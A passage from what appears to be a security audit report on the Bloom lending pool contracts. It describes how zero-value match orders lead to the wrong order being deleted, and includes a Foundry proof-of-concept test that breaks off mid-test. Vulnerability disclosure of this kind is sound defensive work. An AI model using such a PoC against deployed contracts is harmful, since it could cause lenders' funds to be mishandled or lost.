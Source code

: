 ## Likelihood Explanation

The likelihood is very high because anyone can create an empty match order at any time, either accidentally or with malicious intent, due to the lack of zero-value restrictions.

## PoC

Here is an step by step to proof the vulnerability

1. Borrower1 calls fundOrder function passing lender1 as param.
2. As lender1 does't have any open order a new match order is created with zero amount on-behalf of borrower1
3. Lender1 calls lenderOrder function with 40 ether as amount.
4. Borrower2 calls fundOrder passing lender1 and 40 ethers as params, so all the open order of lender1 is filled.At this point Lender1 has 2 MatchOrders, one for borrower1 with empty amount and a second one for borrower2 with balances.
5. Lender1 calls killMatchOrder function with 20 ether as amount. killMatchOrder calls internally _closeMatchOrders function which iterated from last matchOrder created to the first one. Therefore it start with the matchOrder of borrower2, decreased the balances and continue with the next matchOrder, the empty one.
it checks of lCollateral is zero, as it is tru, it pops up the last match order, which is the matchOrder with remaining value of borrower2.

Next test code performs the steps described above, paste in the BloomTestSetup.t.sol file and run it with `forge test --mt testIncorrectMatchOrderDeletionDueToEmptyMatchOrders`

```js

    function testIncorrectMatchOrderDeletionDueToEmptyMatchOrders() public{
        address lender1 = makeAddr("lender1");
        address borrower1 = makeAddr("borrower1");
        address borrower2 = makeAddr("borrower2");
        
        vm.startPrank(owner);
        bloomPool.whitelistBorrower(borrower1, true);
        bloomPool.whitelistBorrower(borrower2, true);
        stable.mint(borrower1, 100 ether);
        stable.mint(borrower2, 100 ether);
        stable.mint(lender1, 100 ether);
        // fillOrder without a previous lendOrder to create a matchOrder with zero amounts
        vm.startPrank(borrower1);
        bloomPool.fillOrder(lender1, 10 ether);
        IOrderbook.MatchOrder memory emptyMatchOrder = bloomPool.matchedOrder(lender1, 0);
        assertEq(emptyMatchOrder.lCollateral, 0);
        assertEq(emptyMatchOrder.bCollateral, 0);
        assertEq(emptyMatchOrder.borrower, borrower1);

       _createLendOrder(lender1, 40 ether);
        
        vm.startPrank(borrower2);
        stable.approve(address(bloomPool), 40 ether);
        bloomPool.fillOrder(lender1, 40 ether);

        vm.startPrank(lender1);
        bloomPool.killMatchOrder(20 ether);
        vm.stopPrank();

        // assertEq(stable.balanceOf(address(bloomPool)), 1.58e19);
        console.log('stable.balanceOf(address(bloomPool): ', stable.balanceOf(address(bloomPool)));
        
        IOrderbook.MatchOrder memory remainingMatchOrder = bloomPool.matchedOrder(lender1, 0);
        uint256 matchOrderCount = bloomPool.matchedOrderCount(lender1);
        // There is only one remaining match order with zero amount that correspond to borrower1.
```